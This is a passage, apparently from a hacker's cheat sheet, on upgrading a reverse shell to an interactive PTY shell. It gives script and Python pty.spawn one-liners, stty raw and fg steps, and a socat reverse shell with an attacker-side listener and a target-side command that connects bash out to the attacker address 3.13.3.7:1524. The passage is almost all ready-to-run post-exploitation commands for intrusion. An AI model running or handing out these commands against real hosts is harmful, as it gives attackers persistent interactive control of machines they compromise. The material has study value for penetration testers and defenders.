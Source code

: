 5.ii.a. Upgrade a reverse shell to a PTY shell

Any of the above reverse shells are limited. For example sudo bash or top will not work. To make these work we have to upgrate the shell to a real PTY shell:

$ script -qc /bin/bash /dev/null  # Linux
$ script -q /dev/null /bin/bash   # BSD

Or:

# Python
$ python -c 'import pty; pty.spawn("/bin/bash")'

5.ii.b. Upgrade a reverse shell to a fully interactive shell

...and if we also like to use Ctrl-C etc then we have to go all the way and upgrade the reverse shell to a real fully colorful interactive shell:

# On the target host spwan a PTY using any of the above examples:
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Now Press Ctrl-Z to suspend the connection and return to your own terminal.
# On your terminal execute:
$ stty raw -echo

# ...and bring the connection back into the foreground:
$ fg
$ reset

# On target host
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows 24 columns 80

5.ii.c. Reverse shell with socat (fully interactive)

...or install socat and get it done without much fiddling about:

# on attacker's host (listener)
socat file:`tty`,raw,echo=0 tcp-listen:1524
# on target host (reverse shell)
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:3.13.3.7:1524
